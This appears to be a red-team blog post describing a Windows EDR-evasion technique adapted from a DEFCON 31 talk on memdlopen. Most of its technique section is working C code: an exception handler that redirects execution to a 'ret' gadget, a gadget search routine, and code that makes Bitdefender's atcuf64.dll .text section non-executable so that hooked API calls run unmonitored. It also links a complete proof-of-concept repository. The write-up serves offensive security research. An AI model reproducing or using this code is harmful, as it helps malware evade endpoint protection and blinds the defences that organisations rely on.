


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:


1. Hooked Function Execution: When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL:



2. Triggered Exception: An exception is raised as this memory region is marked as non-executable:


3. Exception Handling and ROP: The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.



By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: https://github.com/ikerl/segrun
